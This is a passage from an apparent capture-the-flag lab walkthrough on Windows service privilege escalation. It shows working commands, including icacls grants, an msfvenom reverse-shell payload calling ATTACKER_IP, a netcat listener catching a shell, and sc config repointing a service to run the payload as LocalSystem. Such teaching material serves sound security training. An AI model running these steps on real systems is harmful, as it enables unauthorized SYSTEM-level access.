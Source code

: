 C:\> icacls C:\MyPrograms\Disk.exe /grant Everyone:F
        Successfully processed 1 files.
```
Once the service gets restarted, your payload should execute:
```
C:\> sc stop "disk sorter enterprise"
C:\> sc start "disk sorter enterprise"
```
As a result, you'll get a reverse shell with svcusr2 privileges:
```
user@attackerpc$ nc -lvp 4446
Listening on 0.0.0.0 4446
Connection received on 10.10.175.90 50650
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
wprivesc1\svcusr2
type C:\Users\svcusr2\Desktop\flag.txt
```
## Insecure Service Permissions
You might still have a slight chance of taking advantage of a service if the service's executable DACL is well configured, and the service's binary path is rightly quoted. Should the service DACL (not the service's executable DACL) allow you to modify the configuration of a service, you will be able to reconfigure the service. This will allow you to point to any executable you need and run it with any account you prefer, including SYSTEM itself.
To check for a service DACL from the command line, you can use Accesschk from the Sysinternals suite. For your convenience, a copy is available at `C:\\tools`. The command to check for the thmservice service DACL is:
```
C:\tools\AccessChk> accesschk64.exe -qlc thmservice
  [0] ACCESS_ALLOWED_ACE_TYPE: NT AUTHORITY\SYSTEM
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_PAUSE_CONTINUE
        SERVICE_START
        SERVICE_STOP
        SERVICE_USER_DEFINED_CONTROL
        READ_CONTROL
  [4] ACCESS_ALLOWED_ACE_TYPE: BUILTIN\Users
        SERVICE_ALL_ACCESS
```
Here we can see that the `BUILTIN\\Users` group has the SERVICE_ALL_ACCESS permission, which means any user can reconfigure the service.
Before changing the service, let's build another exe-service reverse shell and start a listener for it on the attacker's machine:
```
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe

user@attackerpc$ nc -lvp 4447
```
We will then transfer the reverse shell executable to the target machine and store it in `C:\Users\thm-unpriv\rev-svc3.exe`. Feel free to use wget to transfer your executable and move it to the desired location. Remember to grant permissions to Everyone to execute your payload:
```
C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
```
To change the service's associated executable and account, we can use the following command (mind the spaces after the equal signs when using sc.exe):
```
C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
```
Notice we can use any account to run the service. We chose LocalSystem as it is the highest privileged account available. To trigger our payload, all that rests is restarting the service:
```